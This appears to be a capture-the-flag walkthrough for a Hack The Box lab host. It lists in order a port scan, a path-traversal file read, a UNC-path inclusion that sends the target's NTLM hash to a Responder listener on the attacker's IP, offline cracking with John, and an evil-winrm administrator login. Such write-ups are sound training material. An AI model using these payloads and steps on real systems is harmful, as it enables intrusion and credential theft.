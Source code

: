 # 1.Port Scan
ip=10.129.166.236
nmap -p- --min-rate=5000 -sV $ip

![ce8fc0056d5195820fdb48e66a1cf677.png](../_resources/ce8fc0056d5195820fdb48e66a1cf677.png)


# 2.UNIKA.HTB Connect
`sudo vim /etc/hosts`


![d76c3f001e66f51224c55562e7d80b95.png](../_resources/d76c3f001e66f51224c55562e7d80b95.png)
![2c5521632745e9a44caf928311eb38f6.png](../_resources/2c5521632745e9a44caf928311eb38f6.png)

# 3.Directory Search

![13d3b79ca03132a64984f2452f11132b.png](../_resources/13d3b79ca03132a64984f2452f11132b.png)

**http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts**
![340d685f495a558be3468a15235b6029.png](../_resources/340d685f495a558be3468a15235b6029.png)

# 4.Responder
`sudo responder -I tun0`

![f016cfb5be89d163a6a1da1bc87cf401.png](../_resources/f016cfb5be89d163a6a1da1bc87cf401.png)

## WEB Request 
![ff4c67dffdd1311d1892c45cfa21a497.png](../_resources/ff4c67dffdd1311d1892c45cfa21a497.png)
**http://unika.htb/index.php?page=//10.10.16.8/testShare**


## Hash get
![40fe3900139913018ad99d020f9b6e3c.png](../_resources/40fe3900139913018ad99d020f9b6e3c.png)


# 5.Password Crack
`John -wordlist=/home/kali/rockyou2 /home/kali/hash.txt`

![6c9d8534d33ade861c741f8b79ff39da.png](../_resources/6c9d8534d33ade861c741f8b79ff39da.png)

# 6.Flag get
`evil-winrm -i $ip -u administrator -p badminton`   

![e84057e576fd8d95ed36c8e80512a7b8.png](../_resources/e84057e576fd8d95ed36c8e80512a7b8.png)

![9cbd3e57f13ba7be580b7cf4ef9326da.png](../_resources/9cbd3e57f13ba7be580b7cf4ef9326da.png)

